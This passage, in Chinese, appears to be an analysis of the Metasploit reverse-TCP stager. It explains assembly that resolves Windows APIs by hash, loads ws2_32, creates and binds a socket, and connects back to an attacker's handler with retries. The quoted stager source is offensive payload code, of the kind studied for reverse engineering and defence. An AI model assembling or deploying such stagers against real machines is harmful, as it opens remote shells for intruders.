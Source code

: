 在第5行先调用了block\_api\_hash得到了LoadLibraryA函数的地址，接着将LoadLibraryA函数的地址压入了堆栈，然后调用了asm\_block\_api函数。

此函数调用LoadLibraryA加载了ws2\_32这个dll，为下面使用socket链接metasploit做准备。  
从第9行开始，就是往堆栈中压入了一些参数，接着又调用了WSAStartup函数初始化了网络库。

下面这些汇编主要是压入了一些参数，接着在第15行调用了WSASocketA函数创建了一个套接字，接着把套接字存储到了edi中

```c
create_socket: 
    push #{encoded_host} ; host in little-endian format 
    push #{encoded_port} ; family AF_INET and port number 
    mov esi, esp ; save pointer to sockaddr struct 
    push eax ; if we succeed, eax will be zero, push zero for the flags param. 
    push eax ; push null for reserved parameter 
    push eax ; we do not specify a WSAPROTOCOL_INFO structure 
    push eax ; we do not specify a protocol inc eax ; 
    push eax ; push SOCK_STREAM 
    inc eax ; 
    push eax ; push AF_INET 
    push #{Rex::Text.block_api_hash('ws2_32.dll', 'WSASocketA')} 
    call ebp ; WSASocketA( AF_INET, SOCK_STREAM, 0, 0, 0, 0 );//创建了socket，为连接服务器做准备 
    xchg edi, eax ; save the socket for later, don't care about the value of eax after this
```

接着在第7行调用了bind函数，绑定了传入的socket结构体中的ip与端口

```c
push #{encoded_bind_port} ; family AF_INET and port number 
mov esi, esp ; save a pointer to sockaddr_in struct 
push #{sockaddr_size} ; length of the sockaddr_in struct (we only set the first 8 bytes, the rest aren't used) 
push esi ; pointer to the sockaddr_in struct 
push edi ; socket 
push #{Rex::Text.block_api_hash('ws2_32.dll', 'bind')} 
call ebp ; bind( s, &sockaddr_in, 16 ); 
push #{encoded_host} ; host in little-endian format 
push #{encoded_port} ; family AF_INET and port number 
mov esi, esp
```

接着又调用了connect函数链接metasploit，如果eax中的值为0那么代表链接成功.

```c
push 16 ; length of the sockaddr struct 
push esi ; pointer to the sockaddr struct 
push edi ; the socket 
push #{Rex::Text.block_api_hash('ws2_32.dll', 'connect')} 
call ebp ; connect( s, &sockaddr, 16 ); 
test eax,eax ; non-zero means a failure 
jz connected 
handle_connect_failure: 
    ; decrement our attempt count and try again 
    dec dword [esi+8] 
    jnz try_connect
```
